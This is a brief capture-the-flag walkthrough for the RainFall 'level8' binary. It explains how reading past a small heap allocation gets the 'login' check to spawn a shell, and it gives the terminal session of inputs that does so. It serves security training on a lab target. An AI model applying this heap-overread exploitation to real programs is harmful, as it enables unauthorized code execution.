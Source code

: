 # Walkthrough

**Main** : 
The goal of exploiting the vulnerability in the program called "level8" is to gain unauthorized access over the program's execution by accessing sensitivearray that is not supposed to be accessible .


**Process**:  
>   the idea it's to make three malloc, then  from the first pointer you can read what is on the second, and vice versa.<br/> 
>   Just read further than what has been allocated<br/>
>   Initially auth point on the first alloc addr `x804a008` <br/>

![Alt alloc](alloc.png)

## Solution 


```
level8@RainFall:~$ ./level8
(nil), (nil) 
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 
service
0x804a008, 0x804a028 
login
$ 
```
